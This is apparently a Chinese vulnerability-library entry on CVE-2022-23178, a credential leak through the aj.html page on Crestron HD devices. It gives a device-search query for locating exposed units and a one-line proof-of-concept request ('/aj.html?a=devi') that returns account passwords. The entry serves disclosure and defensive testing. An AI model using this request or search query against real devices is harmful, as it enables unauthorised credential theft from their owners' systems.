 # Crestron aj.html 账号密码泄漏漏洞 CVE-2022-23178

## 漏洞描述

Crestron HD等系列设备 aj.html页面调用特定的参数可以获取账号密码等敏感信息

## 漏洞影响

<a-checkbox checked>Crestron HD等系列设备</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Crestron-HD-RX-201-C-E"</a-checkbox></br>

## 漏洞复现

产品页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1644758503441-dca2357a-9bc4-48fd-a5f2-b30f3db71ed3.png)

验证POC

```javascript
/aj.html?a=devi
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1644758524287-912c0410-f3fd-4ad7-a4cf-aa47782a44ee.png)



若有收获，就点个赞吧